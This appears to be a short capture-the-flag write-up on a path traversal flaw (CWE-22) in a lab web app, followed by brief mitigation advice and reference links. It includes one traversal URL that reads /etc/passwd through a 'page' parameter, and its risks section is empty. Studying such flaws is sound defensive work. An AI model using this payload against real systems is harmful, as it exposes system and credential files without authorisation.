 # Path traversal

## Breach type:

CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')

## How to find the flag:
* Use this URL : http://192.168.56.101/index.php?page=../../../../../../../../etc/passwd

## Risks:


## How to avoid:
* Avoid User Input in File System Calls: Minimize the use of user input for file operations.
* Use Indexes: Instead of actual filenames, use indexes or predefined values.
* Restrict Path Construction: Surround user input with predefined path code to restrict path traversal.
* TO BE CONTINUED...

## Sources:
* https://cwe.mitre.org/data/definitions/22.html
* https://book.hacktricks.xyz/pentesting-web/file-inclusion
* https://owasp.org/www-community/attacks/Path_Traversal
* https://github.com/JahTheTrueGod/Directory-Traversal-Cheat-Sheet